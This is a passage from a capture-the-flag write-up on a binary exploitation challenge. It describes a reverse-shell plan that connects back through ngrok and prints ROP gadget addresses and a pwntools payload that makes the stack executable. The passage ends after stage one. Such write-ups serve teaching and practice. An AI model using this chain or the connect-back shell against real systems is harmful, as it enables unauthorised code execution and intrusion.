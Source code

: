> And from this challenge, I know that SYS_SOCKET just create an endpoint, we cannot interact, read or write from the fd returned by SYS_SOCKET immediately. We need to execute SYS_CONNECT to establish a real connection and then, we can read and write to the fd returned by SYS_SOCKET.

We can SYS_CONNECT to our host via ngrok or we can create 1 bind socket and 1 socket to connect to that bind on server. For this writeup, we will use the first way, connect back to our host via ngrok. And with that new connection, we will send the second payload to make 
the binary execute dup2 and create shell for us.

Summary:
- Stage 1: Create socket and connect
- Stage 2: Second payload & get shell

# 3. Exploit

### Stage 1: Create socket and connect

First, we will need to modify `__stack_prot` to `7` so some gadgets will be needed:

```python
pop_eax          = 0x080b8536
pop_edx          = 0x0806ec8b
mov__eax_4__edx  = 0x08053502
jmp_esp          = 0x080bd13b
```

And we also need the global variable addresses which are used in `_dl_make_stack_executable`:

```python
__libc_stack_end = 0x80e9fc8
_dl_pagesize = 0x80eaa08
__stack_prot = 0x80e9fec
_dl_make_stack_executable = 0x0809a080
```

You can use gdb or ghidra or ida to find these addresses.

So now, let's change value of `__stack_prot` first, then move the address of `__libc_stack_end` to eax, which is first argument of function `_dl_make_stack_executable`, and finally, execute that function:

```python
payload = flat(
    0, 0, 0,        # Padding to saved eip
    # Set __stack_prot = 7
    pop_eax, __stack_prot - 4,
    pop_edx, 7,
    mov__eax_4__edx,

    # Set arg1 = __libc_stack_end
    pop_eax, __libc_stack_end,

    _dl_make_stack_executable,
    jmp_esp
)

p.send(payload)
p.interactive()
```
